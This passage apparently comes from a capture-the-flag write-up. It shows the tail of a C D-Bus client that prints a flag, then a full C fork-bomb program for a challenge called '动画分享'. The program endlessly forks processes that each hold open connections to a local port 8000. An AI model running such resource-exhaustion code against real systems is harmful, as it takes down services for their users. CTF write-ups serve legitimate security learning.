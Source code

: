 ```C
        g_print("Flag 3: %s\n", flag);
        g_free(flag);
        g_variant_unref(result);
    } else {
        g_printerr("Error calling D-Bus method %s: %s\n", METHOD, error->message);
        g_error_free(error);
    }

    g_object_unref(connection);
    return 0;
}
```

## 动画分享

Got the first flag mysteriously, then just tried mass forking.

```C
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>

#define TARGET_PORT 8000
#define MAX_PROCESSES 100 

int main() {
    while(1) {
        pid_t pid = fork();

        if (pid < 0) {
            sleep(100);
        }

        if (pid == 0) {
            int sock = socket(AF_INET, SOCK_STREAM, 0);
            if (sock < 0) continue;

            struct sockaddr_in server_addr;
            server_addr.sin_family = AF_INET;
            server_addr.sin_port = htons(TARGET_PORT);
            inet_aton("127.0.0.1", &server_addr.sin_addr);

            connect(sock, (struct sockaddr*)&server_addr, sizeof(server_addr));

            sleep(100);
        }
    }

    return 0;
}
```
